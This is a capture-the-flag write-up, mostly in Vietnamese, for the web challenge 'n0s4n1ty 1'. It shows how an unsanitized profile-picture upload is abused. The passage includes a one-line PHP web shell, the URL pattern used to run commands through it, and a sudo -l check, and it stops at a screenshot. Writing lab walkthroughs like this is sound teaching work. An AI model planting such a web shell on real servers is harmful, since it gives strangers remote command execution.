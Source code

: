 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

- `File upload was not sanitized`
- `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)
**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.** 
Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)

